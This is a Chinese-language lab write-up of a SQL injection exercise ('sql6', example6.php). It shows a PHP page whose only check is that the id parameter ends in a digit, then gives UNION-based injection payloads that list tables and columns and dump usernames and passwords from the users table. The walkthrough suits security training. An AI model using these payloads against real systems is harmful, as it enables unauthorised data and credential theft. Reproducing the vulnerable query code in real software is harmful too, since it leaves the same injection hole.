


# sql6

进入example6.php

源码
```php
<?php

   require_once('../header.php');
  require_once('db.php');
        if (!preg_match('/[0-9]+$/', $_GET["id"])) {
                die("ERROR INTEGER REQUIRED");
        }
        $sql = "SELECT * FROM users where id=";
        $sql .= $_GET["id"] ;


        $result = mysql_query($sql);


if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```
这里呢使用了正则匹配结尾是否是数字，给`preg_match`加了一个!，就说明了如果传参的参数的结尾不是数字的话就结束程序
行吧
因为mysql是支持嵌套查询的
所以这里可以使用联合查询中再嵌套查询，让字段数在结尾就可以了
payload1
```sql
example6.php?id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5 
```
payload1执行的结果

得到表名
payload2

```sql
example6.php?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3,4,5 
```

得到字段名

```sql
example6.php?id=-1 union select 1,(select group_concat("用户名：",name,"->","密码：",passwd separator 0x3c62723e) from users),3,4,5 
```
>0x3c62723e 是换行的hex值
separator是group_concat函数的一个用法，是可以将查询结果的每一条字符串做为一行的结尾添加一个字符串


拿到数据

| 请求方式 |          过滤方式           |      注入方式      | 闭合方式 |
| -------- | -------------------------- | ----------------- | -------- |
| GET      | 正则匹配传参的结尾是否是数字 | 联合查询，嵌套查询 |数字型不需要闭合          |
过关咯！
😀😀😀😀